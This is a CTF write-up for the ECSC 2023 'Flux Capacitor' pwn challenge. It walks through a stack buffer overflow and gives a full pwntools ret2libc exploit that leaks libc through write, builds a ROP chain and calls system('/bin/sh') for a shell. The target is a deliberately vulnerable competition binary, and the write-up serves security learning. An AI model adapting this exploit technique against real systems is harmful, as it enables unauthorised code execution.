 ```yaml
---
id: 16
title: "ECSC 2023: Flux Capacitor"
subtitle: "ECSC 2023 Day 1: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, pwn, ctf"
---
```


## Foreword

This challenge was released near the end of Day 1 yet it's a much easier pwn challenge than all the other challenges. It is just a straight forward buffer overflow ret2libc challenge.

# Flux Capacitor

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d1/flux_capacitor/flux_capacitor'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It has Full RELRO and NX enabled, but no canary or PIE.

We open the binary up in IDA to see that it's as straight-forward as it gets.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  setup(argc, argv, envp);
  write(1, "\nFlux capacitor: \n", 0x13uLL);
  write(1, " __         __\n", 0x10uLL);
  write(1, "(__)       (__)\n", 0x11uLL);
  write(1, " \\ \\       / /\n", 0x10uLL);
  write(1, "  \\ \\     / /\n", 0xFuLL);
  write(1, "   \\ \\   / /\n", 0xEuLL);
  write(1, "    \\ \\ / /\n", 0xDuLL);
  write(1, "     \\   /\n", 0xCuLL);
  write(1, "      \\ /\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      |_|\n", 0xBuLL);
  write(1, "      (_)\n", 0xBuLL);
  write(1, "\n\n[*] Year: [1955]", 0x13uLL);
  write(1, "\n[*] Plutonium ", 0x10uLL);
  write(1, "is not available ", 0x12uLL);
  write(1, "to everoyne.\n", 0xEuLL);
  write(1, "\n[Doc]  : We need ", 0x13uLL);
  write(1, "to find a way to", 0x11uLL);
  write(1, " fill the Flux ", 0x10uLL);
  write(1, "Capacitor with ", 0x10uLL);
  write(1, "energy. Any ideas", 0x12uLL);
  write(1, " Marty?\n[Marty]: ", 0x12uLL);
  read(0, buf, 0x100uLL);
  write(1, "\n[Doc]  : This ", 0x10uLL);
  write(1, "will not work..\n\n", 0x12uLL);
  return 0;
}
```

Yep, that's the whole binary.

We can see that `char buf[32]` is declared with size 32 but `read(0, buf, 0x100uLL);` reads `0x100` bytes into `buf`.

Since this challenge is Full RELRO and NX enabled, we cannot directly execute shellcode nor overwrite GOT, hence we will do ret2libc.

Leak `write` address and return to main, calculate libc base, then perform ROP chain to pop shell.
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("../sols/ezpwn/flux_capacitor_patched", checksec=False)
# context.log_level = 'debug'
libc = ELF("./libc.so.6")

# Run binary 1st time
p = exploit_source("../sols/ezpwn/flux_capacitor_patched", "localhost")

rop = ROP(elf)

# find and pop write, then go back to main
rop.write(1, elf.got['write'])
rop.main()

payload = flat({0x20: p64(0) + rop.chain()})

p.sendlineafter(b"[Marty]:", payload)

# grab output, calculate libc base
p.recvuntil(b"will not work..\n\n\0")

leak = u64(p.recvn(8))
offset = libc.sym.write
libc.address = leak  - offset
info(f"{hex(leak) =}")
info(f"{hex(offset) =}")
success(f"{hex(libc.address) =}")

pause()

# find /bin/sh and call system
rop1 = ROP(libc)

rop1.system(next(libc.search(b"/bin/sh")))
p.sendlineafter(":", flat({ 0x20: p64(0) + rop1.chain() }))

p.interactive()
```

`cat flag.txt` for the flag.